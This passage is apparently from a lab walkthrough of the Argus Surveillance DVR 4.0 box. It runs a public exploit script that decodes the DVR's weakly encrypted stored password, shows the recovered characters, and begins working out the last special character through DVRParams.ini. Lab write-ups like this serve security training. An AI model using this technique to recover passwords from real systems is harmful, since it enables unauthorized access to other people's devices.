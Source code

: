 ```
        if key in characters.keys():
                print("[+] " + key + ":" + characters[key])
        else:
                print("[-] " + key + ":Unknown") 
```

Looking over this script, we find that we actually have an encrypted password and it's a simple substitution cipher. The hash appears to be hardcoded in the script. Let's replace it with the one we found in the Argus config file and run it.

```
# Change this :)
pass_hash = "ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8"
```

```
┌──(kali㉿kali)-[~]
└─$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

It appears that we were able to decode the password except for the final character. The last character of the password must be a special character as this script only accounts for numbers and letters. To figure out which special character it is, let's go back to the Argus website and open the Users page once again. We can create a new user account by clicking the "New User" button.

![Add new user on website](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_97_image_1_ZZ3L7dbK.png)

Add new user on website

With the new user added, let's click "Change Password" in the row containing our new user account. We can set a password for this account and then read **DVRParams.ini** to see how each character is represented. Let's set a password of `!@#$%^&*()` and read the INI file in our SSH session.
